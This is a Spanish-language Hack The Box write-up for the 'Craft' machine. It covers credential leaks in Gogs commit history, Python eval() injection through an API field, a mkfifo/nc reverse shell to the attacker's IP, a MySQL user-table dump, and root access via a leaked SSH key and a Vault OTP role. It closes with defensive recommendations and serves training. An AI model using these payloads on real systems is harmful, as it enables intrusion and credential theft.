# Craft — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟡 Media
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración de subdominios (`api.craft.htb`, `gogs.craft.htb`) · Minería del historial de commits en **Gogs** → credenciales filtradas + **inyección de código vía `eval()`** en un endpoint REST (campo `abv`) · Pivote a base de datos interna (`pymysql`) transfiriendo un script vía `base64` · Reutilización de credenciales → repositorio privado con una **clave SSH filtrada** · Reutilización de contraseña como passphrase de la clave → **HashiCorp Vault** con rol SSH OTP (`root_otp`) → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — subdominios y Gogs](#2-enumeración--subdominios-y-gogs)
3. [Acceso inicial — inyección de código vía `eval()`](#3-acceso-inicial--inyección-de-código-vía-eval)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — de un contenedor a root vía Vault](#escalada-de-privilegios--de-un-contenedor-a-root-vía-vault)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Flujo de ataque](#7-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.78.231
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.78.231
```


```bash
enum-nmap AllPorts
```



Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,443,6022 -oN Ports 10.129.78.231
```


```
443/tcp  open  ssl/http  nginx 1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/...
6022/tcp open  ssh       Golang x/crypto/ssh server (protocol 2.0)
```

> 💡 Tres puertos: **22** (SSH estándar), **443** (HTTPS, certificado emitido para `craft.htb`) y **6022** — un servidor SSH implementado en **Golang**, no OpenSSH. Este último puerto es la huella característica de **Gogs** (o Gitea), que expone su propio servidor SSH para operaciones git.

## 2. Enumeración — subdominios y Gogs

El sitio en el puerto 443 explica el propósito de la aplicación:


```
Craft aims to be the largest repository of US-produced craft brews accessible
over REST. [...] check out our API!
```

Localizamos dos subdominios adicionales (`api.craft.htb` y `gogs.craft.htb`):




Los añadimos al `/etc/hosts`:


`gogs.craft.htb` aloja una instancia de **Gogs** (servidor Git self-hosted) con un repositorio público:


```
Craft / craft-api — An API for IPA's.
```

Revisamos el historial de commits del repositorio, no solo el código actual:



Dos commits llaman la atención: **"add test script"** y **"Add fix for bogus ABV values"**.

## 3. Acceso inicial — inyección de código vía `eval()`

El commit **"add test script"** añade `tests/test.py`, que contiene credenciales de prueba hardcodeadas para autenticarse contra la API:



```python
response = requests.get('https://api.craft.htb/api/auth/login',
                         auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

El commit **"Add fix for bogus ABV values"** modifica el endpoint de creación de cervezas para "validar" el campo `abv` (graduación alcohólica):


```python
# make sure the ABV value is sane.
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

> 💡 El propio "fix" de seguridad introduce la vulnerabilidad: en lugar de convertir `abv` a `float` y compararlo numéricamente, el código concatena el valor **directamente dentro de una cadena** que luego se pasa a **`eval()`**. Como `request.json['abv']` es un string controlado por el atacante, esto es una inyección de código Python: cualquier texto en ese campo se ejecuta como código real.

Con las credenciales filtradas en el historial, construimos un script para autenticarse y explotar la inyección:

```python
response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(response.text)['token']

brew_dict['abv'] = '__import__("os").system("ping -c 1 10.10.15.31")'
headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}
requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json.dumps(brew_dict))
```



Confirmamos la ejecución de comandos con un listener ICMP:

```bash
sudo tcpdump -i tun0 icmp -n
```


## 4. Obtención de shell

Sustituimos el payload por una reverse shell (`mkfifo` + `nc`):

```python
brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.31 443 >/tmp/f")'
```


```
[+] Waiting for connections on :::443: Got connection
$ whoami
root
$ ip a
172.20.0.6/16 ...
```


> 💡 Somos `root`, pero la IP interna (`172.20.0.6`) revela que estamos dentro de un **contenedor Docker**, no en el host real — el compromiso total de la máquina sigue pendiente.

### Pivotando a la base de datos interna

```bash
ls /opt/app
cat dbtest.py
```



```python
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                              user=settings.MYSQL_DATABASE_USER,
                              password=settings.MYSQL_DATABASE_PASSWORD,
                              db=settings.MYSQL_DATABASE_DB,
                              cursorclass=pymysql.cursors.DictCursor)
```

El script ya conectaba a MySQL usando credenciales internas de la propia aplicación. Lo ejecutamos tal cual para confirmar acceso:

```bash
python3 dbtest.py
```


Editamos una copia local para listar todas las tablas (cambiando `fetchone()` por `fetchall()`):

```python
sql = "SHOW TABLES"
cursor.execute(sql)
result = cursor.fetchall()
```



Sin un canal de transferencia de ficheros disponible, codificamos el script en base64 para pegarlo directamente en la shell reversa:

```bash
base64 db.py -w0 | xclip -sel clip
```


```bash
echo "<base64>" | base64 -d > test.py
```



```bash
python3 test.py
```



```
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
```

Repetimos el proceso para volcar la tabla `user`:

```python
sql = "select * from user"
```


```bash
python3 test.py
```


```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

## Escalada de privilegios — de un contenedor a root vía Vault

Con las credenciales de `gilfoyle`, iniciamos sesión en Gogs:



Su perfil tiene un repositorio **privado**:



```
gilfoyle / craft-infra — Craft infrastructure
```

El repositorio contiene la infraestructura completa del proyecto, incluida una carpeta `.ssh`:




> 💡 Se ha cometido el error clásico de **versionar una clave SSH privada** dentro del propio repositorio de infraestructura.

Descargamos la clave y la usamos para conectar:


```bash
chmod 600 id_rsa
ssh -i id_rsa gilfoyle@10.129.78.231
```


La clave está protegida con passphrase. Probamos la contraseña de `gilfoyle` ya obtenida de la base de datos:


```
gilfoyle@craft:~$
```

> 💡 La misma contraseña reutilizada como **passphrase** de la clave SSH — esta vez, en el **host real** (`craft.htb`), no en el contenedor.

```bash
ls -la
```


```
-rw------- 1 gilfoyle gilfoyle  36 .vault-token
-r-------- 1 gilfoyle gilfoyle  33 user.txt
```

### Abusando de HashiCorp Vault

```bash
vault
```


El repositorio `craft-infra` también documenta la configuración de Vault:


```bash
cat secrets.sh
```



```bash
vault secrets enable ssh
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

> 💡 Vault está configurado con el **motor de secretos SSH**, con un rol llamado `root_otp` que genera contraseñas de un solo uso (**OTP**) para iniciar sesión SSH como **root**, permitido desde **cualquier IP** (`0.0.0.0/0`). `gilfoyle` tiene un token de Vault cacheado (`.vault-token`) — si ese token tiene permisos sobre este rol, puede generar una credencial de root bajo demanda.

```bash
vault ssh -role root_otp root@127.0.0.1
```


```
OTP for the session is: 008dce24-e4df-54fb-16f8-097c2acaf768
Password: <OTP>
root@craft:~# whoami
root
```

## 5. Post-explotación y flags

Shell de root confirmada en el host real — compromiso total del sistema. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Historial de Git con credenciales de prueba hardcodeadas | Commit "add test script" | Filtración de credenciales válidas de la API |
| Validación de entrada de usuario mediante `eval()` sobre una cadena concatenada | Commit "Add fix for bogus ABV values" (`brew.py`) | Inyección de código Python → RCE |
| Credenciales de base de datos reutilizables por cualquier proceso dentro del contenedor | `settings.py` / `dbtest.py` | Volcado completo de la tabla de usuarios tras el RCE |
| Clave SSH privada versionada en un repositorio (aunque fuera privado) | `craft-infra/.ssh/id_rsa` | Acceso directo al host real una vez comprometida esa cuenta |
| Contraseña reutilizada como passphrase de clave SSH | Cuenta `gilfoyle` | Facilita el uso de la clave filtrada sin necesidad de romper el cifrado |
| Rol de Vault SSH-OTP para root sin restricción de origen | `ssh/roles/root_otp` (`cidr_list=0.0.0.0/0`) | Cualquier token con permiso sobre ese rol obtiene acceso root bajo demanda |

## Recomendaciones defensivas

- Nunca almacenar credenciales, aunque sean "de prueba", en el código fuente o en el historial de control de versiones; usar variables de entorno o un gestor de secretos.
- Nunca usar `eval()`/`exec()` sobre datos de entrada de usuario; validar y convertir tipos de forma explícita y segura (`float()`, comparaciones numéricas directas).
- Aplicar el principio de mínimo privilegio a las credenciales de base de datos usadas por la aplicación.
- Nunca versionar claves privadas SSH, tokens ni ningún secreto en un repositorio, ni siquiera en uno marcado como privado.
- No reutilizar contraseñas entre distintos sistemas y mecanismos de autenticación (cuentas web, passphrases de claves SSH, etc.).
- Restringir los roles de Vault al mínimo alcance necesario: limitar `cidr_list`, exigir aprobación adicional para roles que otorgan acceso root, y auditar periódicamente los tokens activos y sus políticas.

## 7. Flujo de ataque



> 💡 **El porqué de cada paso:** en máquinas con un repositorio de código expuesto, el historial de commits es tan importante como el código actual — un "fix" de seguridad mal hecho, o un script de pruebas con credenciales, suelen revelar más que el propio endpoint vulnerable. Tras obtener una shell, el primer chequeo siempre es si se está dentro de un contenedor (IP interna tipo `172.x`/`10.x` con un hostname distinto al de nmap): de ser así, el objetivo cambia a encontrar credenciales que permitan saltar al host real, normalmente a través de configuraciones de la propia aplicación. La reutilización de contraseñas —como passphrase de una clave SSH filtrada— es un patrón extremadamente común en máquinas de este tipo. Una vez en el host real, cualquier gestor de secretos (Vault, en este caso) con un token ya cacheado merece revisión: sus roles configurados pueden ser la vía de escalada final, especialmente si alguno de ellos emite credenciales para una cuenta privilegiada.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
